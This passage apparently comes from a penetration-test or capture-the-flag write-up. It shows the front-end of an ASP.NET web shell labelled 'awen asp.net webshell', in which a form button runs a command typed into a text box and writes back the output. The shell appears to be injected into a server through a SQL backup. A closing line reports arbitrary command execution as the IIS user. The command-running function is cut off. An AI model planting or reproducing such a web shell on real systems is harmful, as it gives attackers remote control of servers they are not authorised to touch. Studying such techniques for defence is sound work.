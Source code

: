 ```bash
}
void cmdExe_Click(object sender, System.EventArgs e)
{
	Response.Write("<pre>");
	Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));
	Response.Write("</pre>");
}
</script>
<HTML>
<HEAD>
<title>awen asp.net webshell</title>
</HEAD>
<body >
<form id="cmd" method="post" runat="server">
<asp:TextBox id="txtArg" style="Z-INDEX: 101; LEFT: 405px; POSITION: absolute; TOP: 20px" runat="server" Width="250px"></asp:TextBox>
<asp:Button id="testing" style="Z-INDEX: 102; LEFT: 675px; POSITION: absolute; TOP: 18px" runat="server" Text="excute" OnClick="cmdExe_Click"></asp:Button>
<asp:Label id="lblText" style="Z-INDEX: 103; LEFT: 310px; POSITION: absolute; TOP: 22px" runat="server">Command:</asp:Label>
</form>
</body>
</HTML>

');
COMMIT;
EXIT;
```

Once the backup was created, the web shell was created and we were able to execute arbitrary commands as the IIS user:
